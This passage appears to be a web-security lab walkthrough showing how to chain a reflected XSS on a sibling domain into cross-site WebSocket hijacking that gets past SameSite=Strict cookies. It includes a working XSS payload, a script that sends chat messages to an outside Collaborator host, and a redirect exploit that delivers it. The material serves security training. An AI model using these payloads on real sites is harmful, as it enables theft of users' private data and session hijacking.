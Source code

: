     In the response, notice that the website explicitly specifies SameSite=Strict when setting session cookies. This prevents the browser from including these cookies in cross-site requests.

Identify an additional vulnerability in the same "site"

    In Burp, study the proxy history and notice that responses to requests for resources like script and image files contain an Access-Control-Allow-Origin header, which reveals a sibling domain at cms-YOUR-LAB-ID.web-security-academy.net.

    In the browser, visit this new URL to discover an additional login form.

    Submit some arbitrary login credentials and observe that the username is reflected in the response in the Invalid username message.

    Try injecting an XSS payload via the username parameter, for example:
    <script>alert(1)</script>

    Observe that the alert(1) is called, confirming that this is a viable reflected XSS vector.

    Send the POST /login request containing the XSS payload to Burp Repeater.

    In Burp Repeater, right-click on the request and select Change request method to convert the method to GET. Confirm that it still receives the same response.

    Right-click on the request again and select Copy URL. Visit this URL in the browser and confirm that you can still trigger the XSS. As this sibling domain is part of the same site, you can use this XSS to launch the CSWSH attack without it being mitigated by SameSite restrictions.

Bypass the SameSite restrictions

    Recreate the CSWSH script that you tested on the exploit server earlier.
    <script>
        var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
        ws.onopen = function() {
            ws.send("READY");
        };
        ws.onmessage = function(event) {
            fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
        };
    </script>

    URL encode the entire script.

    Go back to the exploit server and create a script that induces the viewer's browser to send the GET request you just tested, but use the URL-encoded CSWSH payload as the username parameter. The following is one possible approach:
    <script>
        document.location = "https://cms-YOUR-LAB-ID.web-security-academy.net/login?username=YOUR-URL-ENCODED-CSWSH-SCRIPT&password=anything";
    </script>

    Store and view the exploit yourself.

    In Burp, go back to the Collaborator tab and click Poll now. Observe that you've received a number of new interactions, which contain your entire chat history.

    Go to the Proxy > HTTP history tab and find the WebSocket handshake request that was triggered by your script. This should be the most recent GET /chat request.

